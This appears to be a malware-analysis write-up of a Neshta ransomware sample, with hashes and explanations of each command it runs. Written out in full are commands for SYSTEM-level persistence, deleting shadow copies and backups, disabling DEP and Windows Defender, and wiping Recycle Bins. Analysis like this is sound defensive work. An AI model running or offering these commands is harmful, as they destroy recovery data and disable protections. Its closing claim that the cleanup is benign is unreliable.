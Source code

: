 # Neshta Ransomware family

* [https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/](https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/)

## History

The ransomware Neshta was first discovered in 2007. It was designed to encrypt files on infected computer systems and demand a ransom in exchange for the decryption key. Neshta primarily spread through malicious emails, compromised software downloads, and other infection methods. Since its discovery, it has been one of many examples of ransomware that have caused disruptions and computer security issues worldwide.

## Sample Information

| Information       | Value                                         |
|-------------------|-----------------------------------------------|
| Analysis date     | December 17, 2023 at 07:20:45                 |
| OS                | Windows 10 Professional (build: 19044, 64 bit)|
| Tags              | ransomware                                    |
| File info         | PE32 executable (GUI) Intel 80386, for MS Windows |
| MD5               | BD3421CDFEA65D7037533121A4B82AEA              |
| SHA256            | 0E5C298EEA81721D30202057A8F1B6EEE18A1BFBB102248F1E862A96128097B9 |


## Setup

### Replication

edi=010BC178 &"C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"

![create-diectory](/images/neshta/neshta-01.png)
![create-diectory](/images/neshta/neshta-02.png)

### Create Tasl
The command you've provided is used to create a scheduled task in Windows. Here's a breakdown of its components:

```
cmd "/c SCHTASKS.exe /Create /RU \"NT AUTHORITY\\SYSTEM\" /sc onstart /TN \"Windows Update BETA\" /TR \"C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe\" /F"
```

-   `cmd "/c`: This initiates the execution of the command that follows it. `/c` tells the command prompt to execute the command and then terminate.
    
-   `SCHTASKS.exe /Create`: This command is used to create a scheduled task. `SCHTASKS` is the command-line utility for managing Windows scheduled tasks.
    
-   `/RU "NT AUTHORITY\\SYSTEM"`: This specifies the user account under which the scheduled task will run. In this case, it's set to run under the `SYSTEM` account, which has high-level privileges on the local system.
    
-   `/sc onstart`: This sets the schedule type for the task. `onstart` means the task will run each time the computer starts.
    
-   `/TN "Windows Update BETA"`: This sets the name of the task to "Windows Update BETA".
    
-   `/TR "C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"`: This is the action to be performed by the scheduled task. Here, it's set to execute a file named `Windows Servers Runtime.exe` located in a temporary folder within the Admin user's AppData directory.
    
-   `/F`: This forces the task to be created and overwrites any existing task with the same name.
    

**Implications:**

-   The use of the `SYSTEM` account suggests that the task will have extensive privileges on the computer.
-   The executable is located in a temporary folder and not in a typical program directory, which could be suspicious.
-   Naming the task "Windows Update BETA" might be an attempt to disguise its true purpose.

Given these factors, especially the location of the executable and the high privileges, this command could potentially be used for malicious purposes, such as running malware at system startup. It's important to be cautious with such commands, and they should only be used if you trust the source of the executable and understand the command's purpose.

### Disable some moyens de protections

1.  **vssadmin, wbadmin, bcdedit, and wmic command**: `cmd.exe "/c vssadmin.exe delete shadows /all /quiet&&wbadmin delete catalog -quiet && bcdedit.exe /set {current} nx AlwaysOff && wmic SHADOWCOPY DELETE"`
    
    -   `vssadmin.exe delete shadows /all /quiet`: Deletes all system restore points (Shadow Copies) without displaying messages.
    -   `wbadmin delete catalog -quiet`: Deletes the backup catalog, which can prevent previous backups from being restored.
    -   `bcdedit.exe /set {current} nx AlwaysOff`: Disables Data Execution Prevention (DEP) for the current system, potentially making the system more vulnerable to attacks.
    -   `wmic SHADOWCOPY DELETE`: Also deletes shadow copies, another form of restore points.
2.  **Add-MpPreference command (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath \"%s\" "`
    
    -   Adds an exclusion in Windows Defender for a specific path (replaced by `%s`), meaning files in this path will not be scanned by Windows Defender.
3.  **Remove-WindowsFeature, New-ItemProperty commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-WindowsFeature Windows-Defender&&powershell -inputformat none -outputformat none -NonInteractive -Command Windows-Defender-GUI&&powershell -inputformat none -outputformat none -NonInteractive -Command New-ItemProperty -Path \"HKLM:SOFTWAREPoliciesMicrosoftWindows Defender\" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force "`
    
    -   Disables and removes Windows Defender (Windows' built-in antivirus) along with its graphical interface.
    -   Modifies the registry to disable Windows Defender's antispyware feature.
4.  **Get-Service, Stop-Service, Set-Service, Set-MpPreference commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Get-Service WinDefend | Stop-Service -PassThru | Set-Service -StartupType Disabled&&powershell -inputformat none -outputformat none -NonInteractive -Command Set-MpPreference -DisableRealtimeMonitoring $true "`
    
    -   Stops the Windows Defender service (WinDefend), disables it at startup, and turns off Windows Defender's real-time monitoring.

### Clean Recycle Bin

![create-diectory](/images/neshta/neshta-clean-recycle-bin.png)

```
cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,S:\\$RECYCLE.BIN,T:\\$RECYCLE.BIN,U:\\$RECYCLE.BIN,V:\\$RECYCLE.BIN,W:\\$RECYCLE.BIN,X:\\$RECYCLE.BIN,F:\\$RECYCLE.BIN,G:\\$RECYCLE.BIN,K:\\$RECYCLE.BIN,L:\\$RECYCLE.BIN,M:\\$RECYCLE.BIN,N:\\$RECYCLE.BIN,O:\\$RECYCLE.BIN,Y:\\$RECYCLE.BIN,Z:\\$RECYCLE.BIN,A:\\$RECYCLE.BIN,B:\\$RECYCLE.BIN,C:\\$RECYCLE.BIN,D:\\$RECYCLE.BIN,E:\\$RECYCLE.BIN,H:\\$RECYCLE.BIN,I:\\$RECYCLE.BIN,J:\\$RECYCLE.BIN"

cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,S:\\Recycler,T:\\Recycler,U:\\Recycler,V:\\Recycler,W:\\Recycler,X:\\Recycler,F:\\Recycler,G:\\Recycler,K:\\Recycler,L:\\Recycler,M:\\Recycler,N:\\Recycler,O:\\Recycler,Y:\\Recycler,Z:\\Recycler,A:\\Recycler,B:\\Recycler,C:\\Recycler,D:\\Recycler,E:\\Recycler,H:\\Recycler,I:\\Recycler,J:\\Recycler"

cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove -Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"

cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"
```


These commands are Windows Command Prompt and PowerShell commands used to manipulate the Recycle Bin on various drives and to manage scheduled tasks. Here's a breakdown of each command:

1.  **Deleting $RECYCLE.BIN folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,...J:\\$RECYCLE.BIN"`
    
    -   `rd /s /q`: This command recursively (`/s`) and quietly (`/q`) deletes a directory.
    -   `P:\\$RECYCLE.BIN, Q:\\$RECYCLE.BIN, ..., J:\\$RECYCLE.BIN`: These are the paths to the `$RECYCLE.BIN` folders on various drives from P: to J:.
    -   This command effectively deletes the Recycle Bin folder from each specified drive, which could be used to permanently remove files bypassing the Recycle Bin.
2.  **Deleting Recycler folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,...J:\\Recycler"`
    
    -   Similar to the first command, this one deletes the `Recycler` folder on various drives.
    -   `Recycler` is an older version of the Recycle Bin used in older versions of Windows, like Windows XP.
3.  **Deleting $RECYCLE.BIN folders using PowerShell**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"`
    
    -   This PowerShell command removes the `$RECYCLE.BIN` folders from the C: and D: drives.
    -   `-Recurse -Force`: These flags ensure that all contents within the folders are removed forcefully, including hidden or system files.
4.  **Deleting a scheduled task named "Windows Update BETA"**: `cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"`
    
    -   `SCHTASKS.exe /Delete`: This command is used to delete a scheduled task.
    -   `/TN "Windows Update BETA"`: Specifies the name of the task to be deleted.
    -   `/F`: Forces the deletion of the task without any prompts for confirmation.

**Implications:**

-   The commands for deleting the `$RECYCLE.BIN` and `Recycler` folders are often used in system cleanup or when trying to recover from a virus/malware infection that might have affected these directories.
-   Deleting the Recycle Bin folders does not harm the system, as Windows will recreate these folders when needed.
-   The deletion of the scheduled task "Windows Update BETA" is a management action, possibly undoing a previous setup or clearing an unwanted or suspicious task.

It's important to use these commands with caution, as they can lead to permanent deletion of files in the Recycle Bin. Additionally, modifying scheduled tasks should be done with an understanding of why the task was created in the first place.
